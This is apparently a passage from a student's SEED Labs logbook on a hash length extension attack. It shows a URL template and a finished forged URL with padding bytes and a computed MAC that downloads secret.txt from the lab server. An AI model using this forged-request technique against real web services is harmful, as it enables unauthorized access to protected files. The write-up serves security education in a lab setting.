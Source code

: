 #### The URL:

At last, we can create the malicious URL: 

The template used:
`http://www.seedlab-hashlen.com/?myname=<name>&uid=<uid>&lstcmd=1<padding>&download=secret.txt&mac=<new-mac>`

The result: a successfull attack :)

`http://www.seedlab-hashlen.com/?myname=ValentinaGuilherme&uid=1001&lstcmd=1%80%00%00%00%00%00%00%00%00%00%00%00%01%90&download=secret.txt&mac=20afa6c7de955d29ee07a076619afcae960dc36a56b4937f1ddad225b2286499`

<img src="images/LOGBOOK10/task3-3.png" width="500" alt="task3-3"/>

Using this method, we can obtain any file, even if it means sensitive data on a secret.txt file. This can be expanded onto executing different and more dangerous commands, if any website has this vulnerability.